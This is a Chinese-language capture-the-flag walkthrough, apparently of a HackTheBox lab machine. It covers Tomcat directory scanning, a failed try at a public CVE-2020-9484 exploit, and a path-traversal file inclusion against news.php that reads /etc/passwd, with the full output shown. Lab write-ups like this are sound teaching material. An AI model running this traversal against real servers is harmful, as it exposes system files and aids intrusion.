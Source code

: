 使用域名重新访问下，对域名进行了扫描，ni。



有个路径存在文件包含，简单探测了下没有结果。

![](https://secure2.wostatic.cn/static/ns2XAJ6UG3zz7A4wA6evpm/image.png?auth_key=1677498531-8weFs5uDoxxWbegtfKG6kc-0-6f47d187521845a445190109bf994d26)



### Tomcat

目录扫描

```Bash
/index.html           (Status: 200) [Size: 1895]
/docs                 (Status: 302) [Size: 0] [--> /docs/]
/examples             (Status: 302) [Size: 0] [--> /examples/]
/manager              (Status: 302) [Size: 0] [--> /manager/]

```

![](https://secure2.wostatic.cn/static/49xeUivKvU9upo8nUytZs4/image.png?auth_key=1677498531-8BcJB5zQn5FsAJ1ttMMrud-0-42dc3d69f8cd5f3f48793d8737a9b6ae)

需要进入管理页面，这里的用户名密码放在 config/tomcat-users.xml中，可能是放在上面的archive中，加后缀名再次便利，没有成功

尝试了.gz  .zip .tgz. .bak .backup和jsp

确认版本为9.0.31，查询官方文档，9.31后一个版本修复了RCE [CVE-2020-9484](http://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2020-9484)，找poc试一下

![](https://secure2.wostatic.cn/static/bTnMYzsxhawz6FSNbBB2GA/image.png?auth_key=1677498531-fq72P1reE1cbhcF4LMmthE-0-bf5d819c3105a872f95ebdbedc92e3a0)

[PenTestical/CVE-2020-9484 (github.com)](https://github.com/PenTestical/CVE-2020-9484)  没有成功

没有思路，看下题解

上面文件包含的思路没有问题，LFI但是对回溯的层数有要求，不能随便. 得到用户 ash

```Bash
└─# curl megahosting.htb/news.php?file=../../../../etc/passwd
root:x:0:0:root:/root:/bin/bash
daemon:x:1:1:daemon:/usr/sbin:/usr/sbin/nologin
bin:x:2:2:bin:/bin:/usr/sbin/nologin
sys:x:3:3:sys:/dev:/usr/sbin/nologin
sync:x:4:65534:sync:/bin:/bin/sync
games:x:5:60:games:/usr/games:/usr/sbin/nologin
man:x:6:12:man:/var/cache/man:/usr/sbin/nologin
lp:x:7:7:lp:/var/spool/lpd:/usr/sbin/nologin
mail:x:8:8:mail:/var/mail:/usr/sbin/nologin
news:x:9:9:news:/var/spool/news:/usr/sbin/nologin
uucp:x:10:10:uucp:/var/spool/uucp:/usr/sbin/nologin
proxy:x:13:13:proxy:/bin:/usr/sbin/nologin
www-data:x:33:33:www-data:/var/www:/usr/sbin/nologin
backup:x:34:34:backup:/var/backups:/usr/sbin/nologin
list:x:38:38:Mailing List Manager:/var/list:/usr/sbin/nologin
irc:x:39:39:ircd:/var/run/ircd:/usr/sbin/nologin
gnats:x:41:41:Gnats Bug-Reporting System (admin):/var/lib/gnats:/usr/sbin/nologin
nobody:x:65534:65534:nobody:/nonexistent:/usr/sbin/nologin
systemd-network:x:100:102:systemd Network Management,,,:/run/systemd:/usr/sbin/nologin
systemd-resolve:x:101:103:systemd Resolver,,,:/run/systemd:/usr/sbin/nologin
systemd-timesync:x:102:104:systemd Time Synchronization,,,:/run/systemd:/usr/sbin/nologin
messagebus:x:103:106::/nonexistent:/usr/sbin/nologin
syslog:x:104:110::/home/syslog:/usr/sbin/nologin
_apt:x:105:65534::/nonexistent:/usr/sbin/nologin
tss:x:106:111:TPM software stack,,,:/var/lib/tpm:/bin/false
uuidd:x:107:112::/run/uuidd:/usr/sbin/nologin
tcpdump:x:108:113::/nonexistent:/usr/sbin/nologin
landscape:x:109:115::/var/lib/landscape:/usr/sbin/nologin
pollinate:x:110:1::/var/cache/pollinate:/bin/false
```